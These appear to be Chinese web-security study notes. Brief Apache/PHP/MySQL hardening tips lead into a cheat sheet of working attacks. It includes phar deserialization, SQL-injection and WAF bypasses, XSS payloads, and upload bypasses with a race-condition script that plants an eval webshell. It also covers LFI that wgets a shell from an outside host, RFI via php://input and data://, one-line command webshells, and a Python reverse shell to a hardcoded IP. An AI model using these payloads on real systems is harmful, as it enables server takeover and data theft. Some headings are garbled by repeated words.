

#  <center>服务器配置</center>
## 一 . APACHE 安全配置
### 1.隐藏 Apache Apache Apache Apache 的版本号及其它敏感信息
#### &emsp;&emsp;默认情况下，很多 Apache 安装时会显示版本号及操作系统版本，甚至会显示服务器上安装的是什么样的 Apache 模块。这些信息可以为黑客所用，并且黑客还可以从中得知你所配置的服务器上的很多设置都是默认状态.这里有两条语句，你需要添加到你的 httpd.conf 文件中
```
ServerSignature Off
ServerTokens Prod
```
#### &emsp;&emsp;第一个ServerSignature Off告诉apache不要在错误页面或其他生成的页面上，第二个ServerTokens Prod告诉Apache只在Server头中返回Apache， 并在每个页面请求中返回
```
Server： Apache
```
### 2.通过更改 php.ini 里的 expose_php = Off 关闭显示php的版本号
###
#### &emsp;&emsp;目录浏览默认地是被启用的。要禁用这个特性，应编辑 http.conf文件，而且对每一个“Directory”指令，应清除“Indexs”引用.在Indexes前.加 + 代表允许目录浏览,加 – 代表禁止目录浏览在Indexes前（虚拟主机vrhost也可能）
```
<Directory /data/www/digital.com >
Options -Indexes -FollowSymLinks
</Directory>
```
### 4.关闭对.htaccess .htaccess .htaccess .htaccess 文件的支持
## &emsp;&emsp;.htaccess文件( 或者" 分布式配置文件")提供了针对每个目录改变配置的方法，即在一个特定的目录中放置一个包含指令的文件，其中的指令作用于此目录及其所有子目录.概述来说，htaccess文件是Apache服务器中的一个配置文件，它负责相关目录下的网页配置。通过htaccess文件，可以帮我们实现：网页301重定向、自定义404错误页面、改变文件扩展名、允许/ 阻止特定的用户或者目录
#### 如果需要重载，则保证这些文件不能够被下载，或者把文件名改成非.htaccess 文件
```
AccessFileName .httpdoverride
```
### 5.隐藏 PHP 的扩展名
```
<IfModule mod_mime.c>
AddType application/x-httpd-php .shtml
</IfModule>
```
### 6.确保 Apache Apache Apache 以其自身的用户账号和组运行访问网站是apache权限
```
User apache
Group apache
```
### apache环境下禁止某文件夹内运行PHP脚本
```php
<Directory "C:/phpStudy/www/upload">
ErrorDocument 404 /404/404.html
ErrorDocument 403 /404/403.html
<FilesMatch "\.(?i:php|php3|php4|phtml)$">
Order allow,deny
Deny from all
</FilesMatch>
</Directory>
```
#### 限制目录运行脚本（与上面类似）
```
open_basedir 限制ＰＨＰ只能访问那些目录
设置成:open_basedir=c:/www/a/
```

## 二. php安全
#### &emsp;&emsp;这个项目设置了错误报告的等级。不论是开发还是部署环境，强烈建议将这个项目设置为 E_ALL。在代码里可以通过：error_reporting(E_ALL)来设置
```
error_reporting
```
#### &emsp;&emsp;这个项目决定是否将错误显示在屏幕上（包含在输出中）。应当在开发中设置为 On，这样可以在开发时就发现错误；应当在部署环境中设置为 Off，这样在所有用户（和潜在攻击者）面前错误将被隐藏。在代码里可以通过ini_set(“display_errors”,”Off”);来设置。
```
display_errorsM
```
#### &emsp;&emsp;这个项目决定是否将错误写入日志。虽然这会引起性能损失，但是对于并不经常出现的错误这是非常必要的。如果在硬盘上记录错误带来了巨大的 I/O 负荷，比起应用程序的效率来说，这或许应当引起更多的注意。应当在部署环境中设置为 On
```
log_errors
```
#### &emsp;&emsp;这个项目决定了日志文件存放的位置和名字。一定要确保 web服务器对指定文件拥有权限。设置 error_reporting 为 E_ALL 对于强制初始化变量有帮助，因为使用一个未定义的变量会产生提示（notice）。
```
error_log
```
#### &emsp;&emsp;禁用一些会引起安全隐患的函数
```
disable_functions = phpinfo, shell_exec
```
#### PHP tag
##### <?
        short_open_tag 決定是否可使用短標記
        或是編譯php時 --enable-short-tags
##### <?=
        等價 <? echo
        自PHP 5.4.0起，always work!
##### <% %>、<%=
        自PHP 7.0.0起，被移除
        須將asp_tags設成On
#####<script
        自PHP 7.0.0起，被移除
        <script language="php">system("id"); </script>
##### 利用phar扩展php反序列化漏洞攻击面
###### 原理分析
####### 1 stub
```
可以 可以理解为一个标志，格式为xxx<?php xxx;__HALT_COMPILER();?>，前面内容不限，但必须以__HALT_COMPILER();?>来结尾，否则phar扩展将无法识别这个文件为phar文件。
```
####### 2  a manifest describing the contents
```
phar文件本质上是一种压缩文件，其中每个被压缩文件的权限、属性等信息都放在这部分。这部分还会以序列化的形式存储用户自定义的meta-data，这是上述攻击手法最核心的地方。
```
####### 3. the file contents
```
被压缩文件的内容。
```
####### 4.漏洞触发点
```
漏洞触发点在使用phar://协议读取文件的时候，文件内容会被解析成phar对象，然后phar对象内的meta-data会被反序列化。PHP一大部分的文件系统函数在通过phar://伪协议解析phar文件时，都会将meta-data进行反序列化
```
####### 构造代码
```php
<?php
    class TestObject {
		public $name="nihoa";
		public $pass = "你好吗";
	}//自己写的对象
    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```
######利用的漏洞代码
```php
<?php
		class TestObject {
		public $name;
		public $pass;
		public function __destruct()
		{
			echo $this->name;
			echo $this->pass;
			echo 123;
		}
	}
file_exists($_GET['a'])
```

###### 将phar伪造成其他格式的文件
```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar");
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```
[phar 扩展php反序列化漏洞攻击](https://paper.seebug.org/680/)
```php
<?php
header("content-type:text/html;charset=utf-8");
include 'function.php';
class c1e4r
{
   public $test;
   public function __construct($name)
   {
       $this->test = $name;
   }
   public function __destruct()
   {
       echo $this->test;
   }
}
class show
{
   public $source;
   public function __construct($file)
   {
       $this->source = $file;
       echo $this->source;
   }
   public function __toString()
   {
       $content = base64_encode(file_get_contents($this->source));
       return $content;
   }
   public function __set($key,$value)
   {
       $this->$key = $value;
   }
   public function _show()
   {
       if(preg_match('/http|https|gopher|dict|\.\.|f1ag/i',$this->source)) {
           die('hacker!');
       } else {
           highlight_file($this->source);
       }

   }
   public function file($file)
   {
       return file_get_contents($file);
   }
   public function __wakeup()
   {
       if(preg_match("/http|https|file|gopher|dict|\.\./i", $this->source)) {
           die("hacker");
       }
   }
}

$file = $_GET["file"] ? $_GET['file'] : "";
if(empty($file)) {
   echo "<h2>There is no file to show!<h2/>";
}
$show = new show();
if(file_exists($file)) {
   $show->source = $file;
   $show->_show();
} else if (!empty($file)){
   die('file doesn\'t exists.');
}
?>
```
利用反序列化(为变量赋值和自动)，$source
```php

```
## python 安全


## 三. MYSQL 安全
### 1.安装 mysql 时，使用 mysql 专用的 linux 帐号和群组
### 2.更改数据库文件默认的存放地址。
```
datadir="C:/Program Files/MySQL/MySQL Server 5.0/Data/"
```
### 3.安装完成以后删除一些其它的帐号，只保留一个 root 帐号，根据业务的需要设置其它相应的帐号，设置这些帐号访问数据库的权限。并且设置业务需要的数据库查询和操作的权限。
### [服务器安全配置](https://blog.csdn.net/wuliowen/article/details/68925242)
### 4 、如果你的 MYSQL 不需要支持远程连接，则用 iptables 禁止对 3306 端口的访问，最好是更改一下 mysql 的默认端口。比如改成：3003
### 5、让一些专用的服务使用专用的 MYSQL 帐号，比如 mysql 的主从配置需要一些mysql 帐号， 则可以使用专用帐号进行主从的数据同步
# <center>常见WEB安全漏洞</center>
### 这里的$\_REQUEST有一个特性，就是当GET和POST都存在同一个变量名的时候，只获取POST中的值。

## 一.SQL注入
<a herf='https://mp.weixin.qq.com/s?__biz=MjM5MTYxNjQxOA==&mid=2652846609&idx=1&sn=7d29a1c595b3f327fbf8e317b102046d&chksm=bd5946dc8a2ecfca0bcf7d844e4aae8abbe8f393fbb0b8c7b8d25a0af78e9a2777388bf8d711&mpshare=1&scene=23&srcid=0705CXbdfotYAED3ppbgYX7p#rd'>
SQL注入</a>

### 原理：通过把SQL命令插入到Web表单递交或输入域名或页面请求的查询字符串，把用户可控的一些变量, 带入到了数据库的各种操作当中且没有做好很好的过滤，最终欺骗服务器执行恶意的SQL命令。
#### sql注入ｃｔｆ
```php
二绕过技巧
<?php
//题目如下
$flag = '';
$filter = "and|select|from|where|union|join|sleep|benchmark|,|\(|\)|like|rlike|regexp|limit|or";

$username = $_POST['username'];
$passwd = $_POST['passwd'];
if (preg_match("/".$filter."/is",$username)==1){
    die("Hacker hacker hacker~");
}
if (preg_match("/".$filter."/is",$passwd)==1){
    die("Hacker hacker hacker~");
}

$conn = mysqli_connect();

$query = "SELECT * FROM users WHERE username='{$username}';";
echo $query."<br>";
$query = mysqli_query($conn, $query);
if (mysqli_num_rows($query) == 1){
    $result = mysqli_fetch_array($query);
    if ($result['passwd'] == $passwd){
        die('you did it and this is your flag: '.$flag);
    }
    else{
        die('Wrong password');
    }
}
else{
    die('Wrong username');
}
?>
```
### 绕过语句
```sql

SELECT sum(id),username FROM admin group by username  with ROLLUP;

SELECT * FROM admin group by username  with ROLLUP;

```
执行语句后如下图

#### 1.mysql中null = null会返回 null，但是mysql还有一个比较操作符<=>，当null <=> null的时候会返回1
#### mysql中的where和having子句都可以实现过滤记录的功能,having是从前筛选的字段再筛选,前面没有筛选就会报错结合以上语句构造
```
SELECT * FROM admin where password ='' =0 group by username  with ROLLUP having username  IS  NULL;

```
执行语句后结果如下图

#### 除了 <=> ，还有两个其他的操作符用来处理某个值和NULL做比较，也就是IS NULL and IS NOT NULL。他们是ANSI标准中的一部分，因此也可以用在其他数据库中。而<=>只能在mysql中使用。
#### 所以最后ｐｌａｙｌｏａｄ为:
```
username = '=0 group by password with rollup having password <=> null#
```
### 绕过语句
#### 1.绕过空格
##### 1.%0a,%0b,%9c
##### 2.()

##### 3./**/
#### 绕过逗号


#### 绕过 = ,like,regexp < >  截取函数用

#### order by 注入

#### 绕过or特别是Information_schema中的or
#### MySQL常见的存储引擎中使用InnoDB引擎可用显示搜索引擎的语句为
```
show engines
```

开了InnoDB引擎的有mysql.innodb_table_stats

### 利用分快传输绕过waf
#### 前提知识
#### content-length
##### 1.持续连接的问题：对于非持续连接，浏览器可以通过连接是否关闭来界定请求或响应实体的边界；而对于持续连接，这种方法显然不奏效。有时，尽管我已经发送完所有数据，但浏览器并不知道这一点，它无法得知这个打开的连接上是否还会有新数据进来，只能傻傻地等了。
######2.在http的协议中Content-Length首部告诉浏览器报文中实体主体的大小
######2.Content-Length首部对于长连接是必不可少的，长连接代表在连接期间会有多个http请求响应在排队，而服务器不能够关闭连接，客户端只能通过Content-Length知道一条报文在哪里结束，下一条报文在哪里开始。
######3.如果Content-Length 比实际返回的长度短，那么就会造成内容截断，如果比实体内容长，客户端就一直处于pendding状态，直到所有的 message body 都返回了请求才结束。
######4.由于 Content-Length 字段必须真实反映实体长度，但是对于动态生成的内容来说，在内容创建完之前，长度是不可知的。这时候要想准确获取长度，只能开一个足够大的 buffer，等内容全部生成好再计算。但这样做一方面需要更大的内存开销，另一方面也会让客户端等更久。
#### 分快编码
##### 1.解决content-length 中出现的问题,：它把数据分解成一系列数据块，并以多个块发送给客户端，服务器发送数据时不再需要预先告诉客户端发送内容的总大小，只需在响应头里面添加Transfer-Encoding: chunked
##### 2.分块编码的格式，一个完整的消息体由n个块组成格式是：块的长度（用十六进制表示）后面跟一个CRLF （回车及换行），长度并不包括结尾的回车换行符。第二部分就是数据本身，同样以CRLF （回车及换行）结束。最后一块是单行，只由块大小（0）以及CRLF组成，不包含任何数据。

####　绕过方法
##### 1.分块组合成完整的HTTP数据包，这时直接使用常规的分块传输方法尝试绕过的话，会被WAF直接识别并阻断。
##### 2.分块传输可以在长度标识处加上分号“;”作为注释
```
9;kkkkk
1234567=1
4;ooo=222
2345
0
```
会被waf 拦截的写法
```
9
&a=1	and
3
2=2
```
不会被waf拦截的写法
```
9;test
&a=1	and
3;test44444
2=2
```
[分块传输吊打所有waf](https://www.anquanke.com/post/id/169738)
updatexml报错注入中 concat|concat_ws|group_concat|make_set

#### json_decode 安全
##### 测试代码
######测试一 \f \n \r \t四个字符进过json_decode后可以被当作Mysql分隔进行解析
```php
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<?php
$conn = mysqli_connect('localhost','root','root','cube');
if($conn){
 print("数据库连接成功");
 if(isset($_GET['username']))
 {
   $login_data=json_decode($_GET['username'],true);
   $username = $login_data['name'];
   $sql = "select * from admin where username ='$username'";
   $result = mysqli_query($conn,$sql);
   $row = mysqli_fetch_array($result);
   print_r($row);
 }
}
?>
```
######运行结果为


###### 测试二 用Unicode 编码\u0009(A,B,C,D,20,2B)均可以被json_decode并带入Mysql作为分割符号
###### 测试结果为

###### 测试三，尝试更改单词为unicode 编码


## 二.跨站脚本（XSS）
### 原理:恶意攻击者往Web页面里插入恶意html代码，当用户浏览该页之时，嵌入其中Web里面的html代码会被执行，从而达到恶意攻击用户的目的。
## 1.没有任何过滤直接输出到页面
```javascript
<script>alert(/xss/)</script>
```
## 2.原理:页面加载之后立即执行一段 JavaScript代码在onload事件里面，那么我们就可以不使用<\script\>标签就可以达到弹窗的效果
```
onload('alert(/ss/)')
```
## ３.window.location.hash并不会跳转到新的链接，只会在当前链接里面
```javascript
//如:http://www.w3cschool.cc/test.htm＃PART2
<script>
document.write(location.hash);
</script>
以上输出#part2
```
## 4.在跳转的地方,用javascript:伪协议
```javascript
window.location='javascript:alert(/xss/)'
```
## ５.input标签里面触发ｘｓｓ
```javascript
onmouseover=alert(document.domain)
onclick=alert(/ss/)
//提交file:///home/lm/Desktop/1.html#alert(1)
<input type="" value="" onmouseover="eval(location.hash.substr(1))">
```


[xssgame通关攻略](https://mp.weixin.qq.com/s/xCyCK3SjBV5qsIyzK8L2-w)
[前端跨域安全](https://mp.weixin.qq.com/s/Ih96u2qwgh2uPd3mWOFOQQ)
[简单代码审计带你基础入门XSS(一）](https://mp.weixin.qq.com/s/avxYU511ZrfzKUG7TerY0g)
<a herf='https://mp.weixin.qq.com/s/Zng0re56-XhtsFa_TCwulw'>简单代码审计带你基础入门XSS（二）</a>
<a herf='https://mp.weixin.qq.com/s/pZsI9vPh9sjUx8OExgXo_A'>简单代码审计带你基础入门XSS（三）</a>
<a herf='https://mp.weixin.qq.com/s/uHJJZlSKIjE5cHSkXA5Rlg'>简单代码审计带你基础入门XSS(完结)</a>
## 三.文件上传
### 原理:由于文件上传功能实现代码没有严格限制用户上传的文件后缀以及文件类型，导致允许攻击者向某个可通过 Web 访问的目录上传任意PHP/ASP/JSP文件，并能够将这些文件传递给PHP/ASP/JSP解释器，就可以在远程服务器上执行任意脚本。
### 基础
```php
<?php
$ _FILES [ 'file'] ['name'] //客户端文件名称

$ _FILES [ 'file'] ['type'] //文件的MIME类型

$ _FILES [ 'file'] ['size'] //文件大小单位字节

$ _FILES [ 'file'] ['tmp_name'] //文件被上传后再服务器端临时文件名，可以在php.ini中指定
```
[文件上传漏洞](https://mp.weixin.qq.com/s/1kUR11K4F8njmHD_QGU_rA)
### 1.解析漏洞
##### (1)IIS5.x-6.x（Windows2003）解析漏洞
```
目录解析
形式：www.xxx.com/xx.asp/xx.jpg
原理: 服务器默认会把.asp，.asp目录下的文件都解析成asp文件。

文件解析
形式：www.xxx.com/xx.asp;.jpg
原理：服务器默认不解析;号后面的内容，因此xx.asp;.jpg便被解析成asp文件了。
IIS6.0 默认的可执行文件除了asp还包含这三种
/test.asa
/test.cer
/test.cdx
```
#### （２）apache解析漏洞
```
Apache 解析文件的规则是从右到左开始判断解析,如果后缀名为不可识别文件解析,就再往左判断。比如 test.php.qwe.asd “.qwe”和”.asd” 这两种后缀是apache不可识别解析,apache就会把wooyun.php.qwe.asd解析成php。
形式：www.xxxx.xxx.com/test.php.php123
```
#### (3)nginx解析漏洞
```
上传:www.xxxx.com/UploadFiles/image/1.jpg/
访问:www.xxxx.com/UploadFiles/image/1.jpg/1.php
```
### 2.绕过文件上传检查功能
### 基础
```php
<?php
$_FILES[‘file’][‘name’] 客户端文件名称

$_FILES[‘file’][‘type’] 文件的 MIME 类型

$_FILES[‘file’][‘size’] 文件大小单位字节

$_FILES[‘file’][‘tmp_name’] 文件被上传后再服务器端临时文件名，可以在 php.ini 中指定
//需要注意的是在文件上传结束后，默认的被储存在临时文件夹中，这时必须把他从临时目录中删除或移动到其他地方，否则，脚本运行完毕后，自动删除临时文件，可以使用 copy 或者 *move_uploaded_file 两个函数
```
#### <li>客户端校验：一般都是在网页上写一段javascript脚本，校验上传文件的后缀名，有白名单形式也有黑名单形式。并没有发送数据包。
#### <li>客户端绕过:可以利用burp抓包改包，先上传一个gif类型的木马，然后通过burp将其改为asp/php/jsp后缀名即可。
#### + 文件头 content-type 字段校验（服务端 MIME 类型检测）
```php
<?php
   //验证代码
   <?php
if($_FILE['userfile']['type'] != "image/gif"){ //检测content-type
    echo "sorry，we only allow uploading GIF images";
    exit;
}
else
{
    echo "Upload success!";
}
?>
```
#### + 使用 Burp 截取上传数据包，修改 Content-Type 的值，改为 image/gif 即可成功绕过上传 webshell
#### * 服务端文件扩展名检测,默认上传后的文件保存的名字是已获取到的名字
```
.htaccess 文件是 Apache 服务器中的一个配置文件，它负责相关目录下的网页配置。通过 .htaccess 文件，可以实现：网页 301 重定向、自定义 404 错误页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能 IIS 平台上不存在该文件，该文件默认开启，启用和关闭在 httpd.conf 文件中配置。
```
#### *  .htaccess 文件，打开记事本，编写代码"AddType application/x-httpd-php .jpg",上传
####  ^ 服务端检测文件头 不同的图片文件都有不同文件头，如：
```php
PNG： 文件头标识 (8 bytes) 89 50 4E 47 0D 0A 1A 0A
JPEG： 文件头标识 (2 bytes): 0xff， 0xd8 (SOI) (JPEG 文件标识)
GIF： 文件头标识 (6 bytes) 47 49 46 38 39(37) 61
PHP 使用 getimagesize 函数验证图片文件头
```
### 绕过这个检测只需要在恶意脚本前加上允许上传文件的头标识就可以了
```php
GIF89a
<?php phpinfo(); ?>
```
### 竞争上传
#### 演示代码
```php
<?php
$allowtype = array("gif"，"png"，"jpg");
$size = 10000000;
$path = "./";

$filename = $_FILES['file']['name'];

if(is_uploaded_file($_FILES['file']['tmp_name'])){
    if(!move_uploaded_file($_FILES['file']['tmp_name']，$path.$filename)){
        die("error:can not move");
    }//先移动到网站目录
}else{
    die("error:not an upload file！");
}
$newfile = $path.$filename;
echo "file upload success.file path is: ".$newfile."\n<br />";

if($_FILES['file']['error']>0){
    unlink($newfile);//删除
    die("Upload file error: ");
}
$ext = array_pop(explode("."，$_FILES['file']['name']));
if(!in_array($ext，$allowtype)){
    unlink($newfile);//删除
    die("error:upload the file type is not allowed，delete the file！");
}
?>
```
#### 首先将文件上传到服务器，然后检测文件后缀名，如果不符合条件，就删掉，我们的利用思路是这样的，首先上传一个 php 文件，内容为：
```php
<?php fputs(fopen("./info.php"， "w")， '<?php @eval($_POST["drops"]) ?>'); ?>
```
#### 当然这个文件会被立马删掉，所以我们使用多线程并发的访问上传的文件，总会有一次在上传文件到删除文件这个时间段内访问到上传的 php 文件，一旦我们成功访问到了上传的文件，那么它就会向服务器写一个 shell。利用代码如下：
```python

import os
import requests
import threading

class RaceCondition(threading.Thread):
    def __init__(self):
        threading.Thread.__init__(self)
        self.url = "http://127.0.0.1:8080/upload/shell0.php"
        self.uploadUrl = "http://127.0.0.1:8080/upload/copy.php"

    def _get(self):
        print('try to call uploaded file...')
        r = requests.get(self.url)
        if r.status_code == 200:
            print("[*]create file info.php success")
            os._exit(0)

    def _upload(self):
        print("upload file.....")
        file = {"file":open("shell0.php"，"r")}
        requests.post(self.uploadUrl， files=file)

    def run(self):
        while True:
            for i in range(5):
                self._get()
            for i in range(10):
                self._upload()
                self._get()

if __name__ == "__main__":
    threads = 20

    for i in range(threads):
        t = RaceCondition()
        t.start()

    for i in range(threads):
        t.join()
```
### 防护建议

1、使用白名单限制可以上传的文件扩展（白名单比黑名单可靠多了）

2、验证文件内容，使用正则匹配恶意代码限制上传

3、对上传后的文件统一随机命名，不允许用户控制扩展名

4、修复服务器可能存在的解析漏洞

5、严格限制可以修改服务器配置的文件上传如：.htaccess

6、隐藏上传文件路径。

7、升级Web Server

8、及时修复Web上传代码（重要）

9、不能有本地文件包含漏洞

10、注意0x00截断攻击（PHP更新到最新版本）

11、上传文件的存储目录禁用执行权限


## <font color=	#7FFF00 >四.文件包含</font>
[PHP 文件包含漏洞姿势总结]m(https://mp.weixin.qq.com/s/FNNpJqwTv6hqror_iYxGcQ)
### 原理：在通过服务器脚本的函数引入文件时，由于传入的文件名没有经过合理的校验，从而操作了预想之外的文件，导致意外的文件泄露甚至恶意的代码注入。
#### php 中引发文件包含漏洞的通常是以下四个函数
##### 1. include() 当使用该函数包含文件时，只有代码执行到 include() 函数时才将文件包含进来，发生错误时只给出一个警告，继续向下执行。
##### 2. include_once() 功能和 include() 相同，区别在于当重复调用同一文件时，程序只调用一次。
##### 3. require() 只要程序一执行就会立即调用文件,发生错误的时候会输出错误信息,并且终止脚本的运行
##### 4. require_once() 它的功能与 require() 相同，区别在于当重复调用同一文件时，程序只调用一次。
##### 当使用这四个函数包含一个新文件时，该文件将作为 PHP 代码执行，php 内核并不在意该被包含的文件是什么类型。所以如果被包含的是 txt 文件、图片文件、远程 url、也都将作为 PHP 代码执行
#### 分类
##### 1、本地文件包含 LFI(Local File Include)
##### 2、远程文件包含 RFI(Remote File Include)（需要 php.ini 中 allow_url_include=on、allow_url_fopen = On）在 php.ini 中，allow_url_fopen 默认一直是 On，而 allow_url_include 从 php5.2 之后就默认为 Off。
###  一、本地包含
包含同目录下的文件(简单利用一)
```
//包含同目录下的文件
?file=test.txt
//目录遍历
?file=./../../test.txt
//包含日志如
?file=../../../../../../../../../var/log/apache/error.log
```
利用二　LFI通过proc/self/environ直接获取webshell
这个文件里保存了系统的一些变量
```php
//检查proc/self/environ是否可用访问
?page=../../../../../proc/self/environ
//Firefox的插件改变Firefox的User-Agent.Start篡改数据和请求URL：
?page=../../../../../proc/self/environ
选择User-Agent 写代码如下：
<?system('wget http://hack-bay.com/Shells/gny.txt -O shell.php');?>
```
利用三.LFI with PHPInfo本地测试过程
```php
//phpinfo文件
<?php

phpinfo();
sleep(1000);//没写脚本暂时测试
?>
//文件包含文件
<?php
include($_GET['a']);
?>
//上传文件

<form action="phpinfo.php" method="post"
enctype="multipart/form-data">
<label for="file">Filename:</label>
<input type="file" name="file" id="file" />
<br />
<input type="submit" name="submit" value="Submit" />
</form>
//上传的文件里面内容为
<?php

file_put_contents('c:/phpstudy/www/dd.php','<?php phpinfo();?>')
?>
```
在本地向服务器上传文件<br>
在删除文件之前包含上传的临时文件
phpinfo文件


#### 利用windowns的findfirster爆破目录文件(包含不知名文件)

#### 包含不了时爆出完整目录名

很多函数有此特性

#### dedecms　getimagesize()存在这个洞　漏洞简写代码（爆破目录）
```php
<?php
　//提交 ../fl</1.png
	header("content-type:text/html;charset=utf-8");
	$imgsize = @getimagesize("flag_in_home_mrsmith_Desktop_flag_txt/".$_GET["img"]);
	if(!$imgsize){
		die("图像不存在<!-- ?img=1.png  -->");
	}
	print_r($imgsize[3]);
?>
```

### 二远程文件包含
#### 利用 php 流 input：
利用条件：
1、allow_url_include = On。
2、对 allow_url_fopen 不做要求。
```php
index.php?file=php://input
POST:
<?php phpinfo();?>
```
#### 利用php filter:
利用条件：无
```
?file=php://filter/convert.base64-encode/resource=index.php
```
#### 利用 data
PHP.ini：

data://协议必须双在on才能正常使用；

allow_url_fopen ：on

allow_url_include：on URIs：
http://127.0.0.1/cmd.php?file=data://text/plain,<?php phpinfo()?>

http://127.0.0.1/cmd.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

http://127.0.0.1/cmd.php?file=data:text/plain,<?php phpinfo()?>


http://127.0.0.1/cmd.php?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

## 五.越权
### 原理:越权漏洞的成因主 要是因为开发人员在对数据进行增、删、改、查询时对客户端请求的数据过分相信而遗漏了权限的判定，导致单个用户可以操作其他人的信息。
## 六.逻辑漏洞
### 逻辑错误漏洞是指由于程序逻辑不严或逻辑太复杂，导致一些逻辑分支不能够正常处理或处理错误，一般出现在任意密码修改、越权访问、密码找回、交易支付金额。
任意用户密码重置


## 五.命令执行

[PHP代码/命令注入小结](https://mp.weixin.qq.com/s/e-qNJaXZh-t5H7AJEOBIAQ)
### 常见命令注入函数
#### eval(),，assert(), system()，preg_replace(), create_function, call_user_func, call_user_func_array，array_map()，反引号，ob_start()，exec()，shell_exec()，passthru()，escapeshellcmd()，popen()，proc_open()，pcntl_exec()
#### 1.最简单的几个函数
```php
<?php
@eval($_GET["sky"]);
?>

<?php
@assert($_GET["sky"]);
?>

<?php
@system($_GET["sky"]);
?>
```
#### 2.preg_replace()
函数作用：函数作用：搜索subject中匹配pattern的部分， 以replacement进行替换。
```
mixed preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] )
```
### 注意

PHP 5.5.0 起， 传入 "\e" 修饰符的时候，会产生一个 E_DEPRECATED 错误； PHP 7.0.0 起，会产生 E_WARNING 错误，同时 "\e" 也无法起效。7.7后使用preg_replace_callback()
```php
//演示实例
<?php
preg_replace("/test/e",phpinfo(),"jutst test");
?>
```

#### 2.create_function
```php
//演示演示实例
<?php
$a=$_GET['id'];
$b="$a";
echo $b;
$f=create_function('$a',$b);  /* 参数 '$a' $b 函数体*/
$f($a);
//相当与
?>
<?php
function niming($a)
{
  $b；//($b==$a)
}

?>

//http://127.0.0.1/index.php?id=1;}phpinfo();/*
```

#### 3.call_user_func()
```
//函数作用：第一个参数 callback 是被调用的回调函数，其余参数是回调函数的参数。
mixed call_user_func ( callable $callback [, mixed $parameter [, mixed $... ]] )
```
```php
<?php
$filter= 'assert';
$value = 'phpinfo()';
call_user_func($filter, $value);
?>
```
```php
<?php
$filter= 'assert';
$b = array('phpinfo()');
call_user_func_array($filter,$b);
?>
```

### 4.array_map()
　　　array_map() 函数将用户自定义函数作用到数组中的每个值上，并返回用户自定义函数作用后的带有新值的数组。 回调函数接受的参数数目应该和传递给 array_map() 函数的数组数目一致。
```php
<?php
//?func=system&cmd=whoami
$func=$_GET['func'];
$cmd=$_GET['cmd'];
$array = array("$cmd","1");
$new_array=array_map($func,$array);
//print_r($new_array);
//<?php array_map("ass\x65rt",(array)$_GET['cmd']);?>
?>
```

### 5.PHP函数直接由字符串拼接
```php
<?php
//?a=assert&b=phpinfo()
$_GET['a']($_GET['b']);
?>
```
### 系统函数　exec()/shell_exec()/passthru()
escapeshellcmd() 对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。 此函数保证用户输入的数据在传送到 exec() 或 system() 函数，或者 执行操作符 之前进行转义。
### 利用pcntl_exec突破disable_functions
pcntl是linux下的一个扩展，可以支持php的多线程操作。\(与python结合反弹shell\)
   pcntl_exec函数的作用是在当前进程空间执行指定程序，版本要求：PHP 4 >= 4.2.0, PHP 5
```php
<?php  pcntl_exec("/usr/bin/python",array('-c', 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM,socket.SOL_TCP);s.connect(("132.232.75.90",9898));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'));?>

```


### popen()和proc_open()是不会直接返回执行结果的，而是返回一个文件指针，但是命令是已经执行了
```php
<?php
popen('echo 123 > 1.txt','w');//成功建立文件１.txt
?>
```

### 绕过禁止命令执行
#### 1.（高版本 默认　enable_dl＝off)
```
php提供了一个扩展模块功能，使用dl函数能包含一个扩展模块。
类似.so或者想windows下的dll文件。可以自定义函数来调用linux命令。无视Disable_functions限制。
```
#### 1．window com组件(php 5.4)(高版本扩展要自己添加)
```php
<?php
$command=$_GET['a'];
$wsh = new COM('WScript.shell'); // 生成一个COM对象　Shell.Application也能
$exec = $wsh->exec("cmd /c ".$command); //调用对象方法来执行命令
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
```
##### 要开启才行

##### 结果为

#### 2.ImageMagick漏洞绕过disable_function
```php
<?php
echo "Disable Functions: " . ini_get('disable_functions') . "\n";

$command = PHP_SAPI == 'cli' ? $argv[1] : $_GET['cmd'];
if ($command == '') {
    $command = 'id';
}

$exploit = <<<EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|$command")'
pop graphic-context
EOF;

file_put_contents("KKKK.mvg", $exploit);
$thumb = new Imagick();
$thumb->readImage('KKKK.mvg');
$thumb->writeImage('KKKK.png');
$thumb->clear();
$thumb->destroy();
unlink("KKKK.mvg");
unlink("KKKK.png");
?>
```
#### 因为没有安装　Imagick 所以没有测试
## 3.利用环境变量LD_PRELOAD来绕过php disable_function执行系统命令
#### php的mail函数在执行过程中会默认调用系统程序/usr/sbin/sendmail，如果我们能劫持sendmail程序，再用mail函数来触发就能实现我们的目的
